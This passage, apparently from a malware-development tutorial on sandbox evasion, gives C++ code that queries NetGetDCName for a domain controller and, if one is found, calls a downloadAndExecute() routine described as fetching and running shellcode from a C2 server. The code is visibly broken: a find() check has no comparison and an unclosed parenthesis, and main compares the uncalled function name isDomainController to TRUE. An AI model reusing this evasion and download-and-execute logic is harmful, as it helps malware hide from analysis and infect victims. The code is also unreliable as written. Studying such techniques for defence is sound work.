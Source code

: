 **Querying Network Information**

For our last evasion technique, we will be querying information about the Active Directory domain. We will be keeping it simple by querying the name of a Domain Controller using the **NetGetDCName** Windows API. This is a relatively simple Windows API that fetches the primary domain controller within the environment. This requires us to specify a pointer to a string for the **DC** Name to be put into. Implementing the function in C++ looks like so:

> **BOOL isDomainController(){**

> **// Create a long pointer to wide string for our DC Name to live in LPCWSTR dcName;**

> **// Query the NetGetDCName Win32 API for the Domain Controller Name**

> **NetGetDCName(NULL, NULL, (LPBYTE \*) &amp;dcName);**

> **// Convert the DCName from a wide string to a string**

> **wstring ws(dcName);**

> **string dcNewName (ws.begin(), ws.end());**

> **// Search if the UNC path is referenced in the dcNewName variable. If so, there is likely a Domain Controller present in the environment. If this is true, pass the check, else, fail.**

> **if (dcNewName.find(“\\\\\\\\”){**

> **return TRUE;**

> **} else {**

> **return FALSE;**

> **}**

This code can be broken down into the following steps:

1\. Declare two variables; one **string**, one **LPCWSTR**. The **NetGetDCName** WinAPI returns only an **LPCWSTR**.

2\. Invoke the **NetGetDCName** Windows API. Two null values will be specified because we do not know the Server Name or the Domain Name of the environment we may be in

3\. We convert the **LPCWSTR** to a normal string variable to check and see if the value is NULL (or, in the case of a string, “”).

4\. Execute the comparison statement and return True or False depending on the device name.

This will then call back to the **Main**() function which will then evaluate if it needs download and execute our shellcode from the C2 Server. The Main function now looks like so:

> **int main() {**

> **if (isDomainController == TRUE) {**

> **downloadAndExecute();**

> **} else {**

> **cout &lt;&lt; “Domain Controller Not Found!”;**

> **}**
